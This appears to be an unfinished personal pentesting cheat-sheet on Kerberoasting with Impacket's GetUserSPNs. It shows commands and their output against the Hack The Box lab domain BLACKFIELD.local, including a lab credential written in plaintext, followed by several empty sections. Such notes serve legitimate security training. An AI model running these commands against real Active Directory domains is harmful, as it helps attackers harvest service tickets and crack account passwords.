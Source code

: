# Kerberoasting with GetUserSPNs

### [Kerberoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

> ... to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

[Powershell - List all SPNs in Active Directory](https://techexpert.tips/powershell/powershell-list-all-spns-active-directory/)

### TLDR
```
GetUserSPNs BLACKFIELD.local/
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
```
### Without creds; HTB Blackfield
```
$ GetUserSPNs BLACKFIELD.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

### With creds; HTB Blackfield
```
$ GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```
### 
```

```

### 
```

```
### Examples 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
